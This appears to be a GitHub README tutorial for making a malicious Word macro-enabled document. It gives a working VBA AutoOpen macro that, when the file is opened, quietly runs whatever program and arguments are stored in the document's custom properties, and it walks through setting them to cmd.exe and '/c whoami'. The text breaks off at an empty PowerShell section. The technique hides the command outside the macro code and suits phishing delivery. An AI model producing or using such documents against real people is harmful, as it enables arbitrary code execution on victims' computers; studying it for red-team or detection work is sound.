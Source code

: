 # Office_Macros_With_Hidden_Functionalities
## Summary
Inspired by the recent Offensive Security post https://www.offensive-security.com/offsec/macro-weaponization/ I thought it would be beneficial to make some minor modifications to this so that it could be updated from the command line using PowerShell #ClickingStuffIsHard #TheGUIWasAMistake. 

## Create Document Template
1. Create a new word document. 
![Create New Document](images/1.png)

2. Select `View`, `Macros`, `View Macros`.
![View Macros](images/2.png)

3. Enter a name for the macro in the `Macro name:` field and select `Create`. Ensure that the `Macros in:` field is set to be the current document (Document1) likely if the document is new and hasn't yet been saved. 
![Create Macro](images/3.png)

4. If prompted to save the document somewhere, In this example I will use the location `C:\temp\cmd_exec.docx`. Also set the `Save as type:` field to be `Word Macro-Enabled Document (*.docm)`. 
![Create Macro](images/10.png)

5. Copy & Paste the code below into the codebox and click on the `Save` icon.
![Create Macro](images/4.png)
```vb
Sub AutoOpen()
    chapel
End Sub
Sub chapel()
    Dim strProgramName As String
    Dim strArgument As String
    Set doc = ActiveDocument
    strProgramName = doc.BuiltInDocumentProperties("cmd").Value
    strArgument = doc.BuiltInDocumentProperties("argument").Value
    Call Shell("""" & strProgramName & """ """ & strArgument & """", vbHideFocus)
End Sub

```
6. Create Custom properties. Go to `File`, `Info`, `Properties`, `Advanced Properties`.
![Create Macro](images/5.png)

7. In the `name` field enter `cmd`, in the `value` field enter `cmd.exe` then click `Add`
![Create Macro](images/6.png)
![Create Macro](images/7.png)

8. In the `name` field enter `argument`, in the `value` field enter `/c whoami` then click `Add`
![Create Macro](images/8.png)

9. Once both values have been added, Click OK to close the `Properties` dialog box. 
![Create Macro](images/9.png)

9. Save the document, for this example I have saved it to `C:\temp\cmd_exec.docx`. 

## PowerShell
